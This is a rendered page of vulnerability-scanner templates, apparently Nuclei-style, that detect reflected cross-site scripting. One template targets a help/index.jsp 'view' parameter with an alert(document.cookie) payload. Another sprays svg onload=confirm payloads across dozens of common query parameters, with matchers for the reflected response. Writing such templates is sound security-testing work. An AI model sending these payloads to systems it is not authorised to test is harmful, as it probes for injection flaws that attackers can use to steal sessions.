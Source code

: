 ## Requests

- Method - GET

### URL

- {{BaseURL}}/help/index.jsp?view=%3Cscript%3Ealert(document.cookie)%3C/script%3E

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<script>alert(document.cookie)\</script>
- part - body

**Type - word**

- words
  1. text/html
- part - header

---

# Top 38 Parameters - Cross-Site Scripting

## Description

- Cross-site scripting was discovered via a search for reflected parameter values in the server response via GET-requests.
- severity - high
- tags - xss,generic

## Requests

- Method - GET

### URL

- {{BaseURL}}/?q=%27%3E%22%3Csvg%2Fonload=confirm%28%27q%27%29%3E&s=%27%3E%22%3Csvg%2Fonload=confirm%28%27s%27%29%3E&search=%27%3E%22%3Csvg%2Fonload=confirm%28%27search%27%29%3E&id=%27%3E%22%3Csvg%2Fonload=confirm%28%27id%27%29%3E&action=%27%3E%22%3Csvg%2Fonload=confirm%28%27action%27%29%3E&keyword=%27%3E%22%3Csvg%2Fonload=confirm%28%27keyword%27%29%3E&query=%27%3E%22%3Csvg%2Fonload=confirm%28%27query%27%29%3E&page=%27%3E%22%3Csvg%2Fonload=confirm%28%27page%27%29%3E&keywords=%27%3E%22%3Csvg%2Fonload=confirm%28%27keywords%27%29%3E&url=%27%3E%22%3Csvg%2Fonload=confirm%28%27url%27%29%3E&view=%27%3E%22%3Csvg%2Fonload=confirm%28%27view%27%29%3E&cat=%27%3E%22%3Csvg%2Fonload=confirm%28%27cat%27%29%3E&name=%27%3E%22%3Csvg%2Fonload=confirm%28%27name%27%29%3E&key=%27%3E%22%3Csvg%2Fonload=confirm%28%27key%27%29%3E&p=%27%3E%22%3Csvg%2Fonload=confirm%28%27p%27%29%3E
- {{BaseURL}}/?api=%27%3E%22%3Csvg%2Fonload=confirm%28%27api%27%29%3E&api_key=%27%3E%22%3Csvg%2Fonload=confirm%28%27api_key%27%29%3E&begindate=%27%3E%22%3Csvg%2Fonload=confirm%28%27begindate%27%29%3E&callback=%27%3E%22%3Csvg%2Fonload=confirm%28%27callback%27%29%3E&categoryid=%27%3E%22%3Csvg%2Fonload=confirm%28%27categoryid%27%29%3E&csrf_token=%27%3E%22%3Csvg%2Fonload=confirm%28%27csrf_token%27%29%3E&email=%27%3E%22%3Csvg%2Fonload=confirm%28%27email%27%29%3E&emailto=%27%3E%22%3Csvg%2Fonload=confirm%28%27emailto%27%29%3E&enddate=%27%3E%22%3Csvg%2Fonload=confirm%28%27enddate%27%29%3E&immagine=%27%3E%22%3Csvg%2Fonload=confirm%28%27immagine%27%29%3E&item=%27%3E%22%3Csvg%2Fonload=confirm%28%27item%27%29%3E&jsonp=%27%3E%22%3Csvg%2Fonload=confirm%28%27jsonp%27%29%3E&l=%27%3E%22%3Csvg%2Fonload=confirm%28%27l%27%29%3E&lang=%27%3E%22%3Csvg%2Fonload=confirm%28%27lang%27%29%3E&list_type=%27%3E%22%3Csvg%2Fonload=confirm%28%27list_type%27%29%3E